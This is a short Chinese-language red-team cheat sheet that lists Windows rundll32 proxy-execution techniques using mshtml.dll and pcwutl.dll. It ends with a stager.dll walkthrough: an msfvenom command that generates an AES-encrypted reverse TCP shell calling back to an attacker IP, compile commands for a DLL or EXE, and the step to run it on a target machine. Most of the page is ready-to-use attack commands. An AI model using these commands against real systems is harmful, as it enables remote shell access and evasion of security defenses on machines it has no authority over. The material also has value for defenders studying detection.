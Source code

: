 ## Mshtml.dll
- 使用说明：
Microsoft HTML 解析程序

文件路径:
```
c:\windows\system32\mshtml.dll
c:\windows\syswow64\mshtml.dll
```
- 执行方式：
```
rundll32.exe Mshtml.dll,PrintHTML "C:\temp\calc.hta"
```
- 参考资料：
```
https://twitter.com/pabraeken/status/998567549670477824
https://windows10dll.nirsoft.net/mshtml_dll.html
```

## Pcwutl.dll
- 使用说明：
Microsoft HTML 解析程序

文件路径:
```
c:\windows\system32\pcwutl.dll
c:\windows\syswow64\pcwutl.dll
```
- 执行方式：
```
rundll32.exe pcwutl.dll,LaunchApplication calc.exe
```
- 参考资料：
```
https://twitter.com/harr0ey/status/989617817849876488
https://windows10dll.nirsoft.net/pcwutl_dll.html
```

## stager.dll/stager.exe

- 使用说明：

下载`https://github.com/phackt/stager.dll`

先使用msfvenom生成payload
```
msfvenom -p windows/x64/encrypted_shell_reverse_tcp LHOST=192.168.1.24 LPORT=443 --encrypt aes256 --encrypt-iv E7a0eCX76F0YzS4j --encrypt-key 6ASMkFslyhwXehNZw048cF1Vh1ACzyyR -f c -o /tmp/meterpreter.c
```
替换cpp文件中的payload，编译生成dll：
```
cl /LD /MT /EHa stager_dll_xx.cpp aes.cpp /Fe:stager.dll
```
也可以编译生成exe
```
cl /MT /EHa stager_exe_xx.cpp aes.cpp /Fe:stager.exe
```
在靶机执行`rundll32 stager.dll,Exec`即可。
